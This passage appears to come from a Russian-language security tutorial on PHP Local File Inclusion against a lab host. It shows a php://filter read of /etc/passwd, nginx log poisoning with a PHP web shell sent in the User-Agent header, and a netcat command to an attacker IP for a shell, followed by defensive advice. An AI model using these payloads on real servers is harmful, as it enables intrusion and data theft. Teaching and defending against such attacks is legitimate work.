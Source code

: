 `http://site.test.lan/index2.php?file=php://filter/convert.base64-encode/resource=/etc/passwd`

И теперь на странице браузера мы увидим не содержимое файла, а его исходник в кодировке **base64**, который можно декодировать.

С основными моментами уязвимости LFI разобрались, и теперь понимаем, что при ее эксплуатации можно прочитать локальный файл на удаленном сервере. Но у LFI есть интересная особенность, позволяющая не просто прочитать локальные файлы, а скомпрометировать сервер.

## Отравление журнала веб-сервера

Думаю, стоит сразу оговориться, что уязвимость не новая, но тем не менее она до сих встречается и может представлять серьезную угрозу для безопасности веб-сервера. При взаимодействии с веб-приложением любой наш запрос записывается в журналы веб-сервера, как правило, это файлы **/var/log/nginx/access.log** или **/var/log/nginx/error.log** если, например, используется веб-сервер **Nginx**, но названия конечных файлов, разумеется, могут отличаться.

Теперь, составив специальный запрос, мы создадим веб-шелл на сервере, записав его в **access.log**. Для отправки запроса будем использовать инструмент Burp Suite, позволяющий в режиме реального времени перехватывать и редактировать запросы.

Наш веб-шелл `<?php system($_GET[cmd]); ?>` записан в журнале веб-сервера и готов к использованию.

Почему использовался именно параметр **User-Agent**? Как уже говорилось ранее, адресная строка кодирует информацию с помощью URL-encode, поэтому для передачи php-кода нужно использовать заголовки, а так как в **access.log** точно пишется User-Agent, то и используем его. Обратившись к нашему веб-шеллу, получаем возможность выполнять различные команды через параметр **cmd**:

`http://site.test.lan/index2.php?file=/var/log/nginx/access.log&cmd=ls /`

В чем отличие? LFI позволяет включать файл на сервере, но необходимо указать полный путь до этого файла, то есть знать, где этот файл находится. Во втором случае выполняется команда на самом сервере, а результат отображается в веб-приложении.

Убедившись, что мы можем выполнять различные команды на сервере, переходим к получению доступа на него. Для этого указываем в параметре **cmd** команду запуска **Netcat** для связи с сервером атакующего, то есть с нами:

`http://site.test.lan/index2.php?file=/var/log/nginx/access.log&cmd=nc 192.168.0.135 4455`

**Рекомендации**

- регулярно проверять безопасность веб-приложения с целью предотвращения возникновения уязвимостей;
- добавить в журнал веб-сервера строчку **<?php exit(1); ?>**. Данный скрипт будет предотвращать любые попытки выполнения php-кода в этом файле;
- использовать средства защиты веб-приложений, например, WAF, который будет блокировать вредоносный запрос, не позволяя его выполнить на веб-сервере.

## Альтернатива NULL-byte при LFI

Уязвимость основана на двух особенностях в функциях PHP для взаимодействия с файловой системой:

1. **Нормализация пути** PHP обрабатывает строку, содержащую путь до файла или папки, особым образом, в частности лишние символы “/” и “/.” удаляются.
2. **Усечение пути** PHP в зависимости от платформы имеет ограничение на длину пути, определяемой константой MAX_PATH, в результате чего все символы, находящиеся за пределами этого значения, отбрасываются.
